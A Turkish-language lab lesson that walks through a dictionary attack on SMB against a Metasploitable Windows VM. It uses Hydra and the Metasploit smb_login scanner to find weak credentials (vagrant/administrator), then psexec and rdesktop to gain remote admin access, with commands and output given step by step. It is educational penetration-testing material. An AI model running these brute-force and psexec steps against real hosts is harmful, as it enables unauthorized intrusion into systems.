

# SMB’ye Dictionary Attack+Exploit Uygulaması

Lesson Date: November 22, 2024
Status: Complete
Text: SMB protokülüne uygulanan dictionary ve exploit saldırısı anlatılacaktır.
Type: Lesson

## SMB’ye Dictionary Attack + Exploit

---

### **1. SMB (Server Message Block) Nedir?**

**SMB (Server Message Block)**, ağ üzerinden dosya paylaşımı ve ağ üzerindeki kaynaklara erişim için kullanılan bir protokoldür. Windows işletim sistemlerinde yaygın olarak kullanılan bu protokol, dosya erişiminden başka, bilgisayarlar arasında iletişim ve kimlik doğrulama gibi işlemleri de gerçekleştirir. SMB, genellikle ağdaki bilgisayarlar arasında veri paylaşımı yapmak ve uzak bilgisayara erişmek için kullanılır.

- **Temel Kullanım Alanları**:
    - Dosya paylaşımı (örneğin, ağ üzerindeki paylaşılan klasörlere erişim)
    - Uzak sistemde komut çalıştırma
    - Kimlik doğrulama (authentication) ve yetkilendirme (authorization)
    
    ## Hydra İle Metasploit-win32x makinesinde Kullanıcı Adı ve Şifre Tespiti
    
    *user.txt ve pass.txt dosyaları, makine üzerinde olası değerleri içerecek şekilde yerel olarak oluşturulmuştur.
    
    ### **Hydra Komutunun Anlamı:**
    
    **Komut**:
    
    ```bash
    
    hydra -L users.txt -P pass.txt 10.10.10.19 smb
    
    ```
    
    - **`-L users.txt`**: **users.txt** dosyasındaki kullanıcı adlarını denemek için kullanılır.
    - **`-P pass.txt`**: **pass.txt** dosyasındaki şifreleri denemek için kullanılır.
    - **`10.10.10.19`**: Saldırının hedef aldığı IP adresi.
    - **`smb`**: SMB protokolü üzerinde deneme yapacağımızı belirtir.
    


Hydra, **10.10.10.19** IP adresindeki SMB servisine bağlanarak **iki geçerli kullanıcı adı ve şifre kombinasyonu** bulmuştur:

- **Kullanıcı adı: vagrant**, **Şifre: vagrant**
- **Kullanıcı adı: administrator**, **Şifre: vagrant**

## Msfconsole ile SMB’ye Dictionary Attack+Exploit

 **1. SMB Login Açığının Tespiti**

Metasploit'e girdikten sonra, SMB ile ilgili açıkları araştırmak için aşağıdaki komutu kullanıyoruz:

```bash

search smb_login
```

Bu komut, SMB login açığını tespit edebileceğimiz modülleri aramamıza yardımcı olur. Çıkan sonuçlar arasında **`auxiliary`** ve **`SMB Login Check Scanner`** modüllerini içeren kısmı seçiyoruz.

- **1.1 smb_login Nedir?**
    
    **smb_login** modülü, Metasploit Framework'ünde, SMB servisi üzerinde zayıf kimlik doğrulama (login) bilgilerini bulmaya yönelik kullanılan bir araçtır. Bu modül, belirli bir hedefte SMB servisine kimlik doğrulama yapılırken doğru kullanıcı adı ve şifre kombinasyonlarını keşfetmek amacıyla kullanılır. Bu sayede, hedef makineye giriş yapmak için doğru kullanıcı adı ve şifreyi bulabiliriz.
    
    - **Kullanım Amacı**:
        - SMB servisi üzerinden giriş yapmak için zayıf veya varsayılan şifreler tespit edilmesi.
        - Hedef makinelerdeki SMB servislerinde açığı olan kullanıcı adı ve şifre kombinasyonlarını bulmak.
    
1. **Metasploit'te Kullanımı**:
    
    ```bash
    
    use auxiliary/scanner/smb/smb_login
    set RHOSTS [hedef_ip]
    set SMBUSERNAME [kullanıcı_adı]
    set SMBPASS [parola]
    exploit
    
    ```
    

Bu komutlarla, hedef makinelerdeki SMB servisine login olmayı deneyebiliriz ve başarılı kombinasyonları öğrenebiliriz.

1. **Modül Seçimi**

İlgili modülün ID numarasını bulup, o modülü kullanmak için “**use [ID]"** komutunu giriyoruz. 


1. **Gerekli Parametrelerin Girilmesi**
    
    Bu modülü çalıştırmadan önce, gerekli parametreleri giriyoruz. Örneğin:
    
    - **RHOSTS**: Hedef makinelerin IP adresi veya ağ aralığı.
    - **SMBUSERNAME**: Kullanıcı adı.
    - **SMBPASS**: Parola.
    
    Ayrıca, daha ayrıntılı bilgi almak için **`verbose`** parametresini **`true`** olarak ayarlıyoruz:
    
    ```bash
    
    set RHOSTS 10.10.10.19
    set SMBUSERNAME vagrant
    set SMBPASS vagrant
    set VERBOSE true
    
    ```
    


1. **Açıkların Tespiti**
    
    Komutu çalıştırdıktan sonra, aşağıdaki gibi bir çıktı alırız:
    
    ```bash
    
    [+] Found valid SMB credentials:
        administrator:vagrant
        vagrant:vagrant
    ```
    
    Burada, **administrator** ve **vagrant** kullanıcı adları ve şifreleri tespit edilmiştir.
    


1. **Exploit İşlemi**
    
    Şimdi, tespit edilen bu açıkları kullanarak sisteme sızmak için SMB üzerinden exploit işlemi yapacağız. Bunun için **`smb/psexec`** modülünü arıyoruz:
    
    ```bash
    
    search smb/psexec
    ```
    
    
    
    - **smb_psexec Nedir?**
        
        **smb_psexec** modülü, Metasploit Framework'ünde SMB üzerinden uzak bir Windows sistemine uzaktan komut çalıştırmak amacıyla kullanılan bir exploit modülüdür. Bu modül, SMB protokolünü kullanarak, kullanıcı adı ve şifre doğru olduğunda, uzak Windows bilgisayarında belirli komutları çalıştırmamıza olanak tanır. "PsExec" komutu, Windows'ta uzaktan komut çalıştırmak için kullanılan bir araçtır ve Metasploit, bu aracı kullanarak hedef sistemde uzaktan işlem yapabilir.
        
        - **Kullanım Amacı**:
            - Hedef sistemde uzaktan komut çalıştırmak (örneğin, shell almak, dosya yüklemek, vb.)
            - SMB servisi üzerinden uzaktan komut çalıştırma yeteneği kullanılarak sistem üzerinde tam kontrol sağlamak.
        - **Metasploit'te Kullanımı**:
            
            ```bash
            
            use exploit/windows/smb/psexec
            set RHOSTS [hedef_ip]
            set SMBUSERNAME [kullanıcı_adı]
            set SMBPASS [parola]
            exploit
            ```
            
        
        Bu modül, doğru kimlik bilgileri sağlandığında, hedef Windows sisteminde yönetici haklarıyla (Admin Privileges) komut çalıştırmak ve uzaktan erişim sağlamak için kullanılır
        
    
2. **Gerekli Değerlerin Girilmesi**
    
    Exploit işlemi için tespit ettiğimiz kullanıcı adı ve şifreyi giriyoruz:
    
    ```bash
    
    set RHOSTS [hedef_ip]
    set SMBUSERNAME vagrant
    set SMBPASS vagrant
    
    ```
    
3. **Exploit’i Çalıştırma**
    
    Tüm değerleri girdikten sonra exploit işlemini başlatıyoruz:
    
    ```bash
    
    exploit
    ```
    
    Bu komutla, sisteme giriş yapmış oluruz.
    

---


### **Rdesktop ile Windows Makinesine Bağlantı Kurma ve Görüntü Erişimi Sağlama**

**rdesktop** kullanarak, doğru kullanıcı adı, şifre ve hedef makinenin IP adresini vererek uzak Windows makinesine bağlanabilirsiniz. Bağlantıyı kurmak için şu komutu kullanabilirsiniz: **`rdesktop -u <kullanıcı_adı> -p <şifre> <IP_adresi>`**.

Bu komut ile makinemiz lokal makinemizde pencere olarak açılır ve hedef makine üzerinde işlemler gerçekleştirebiliriz.

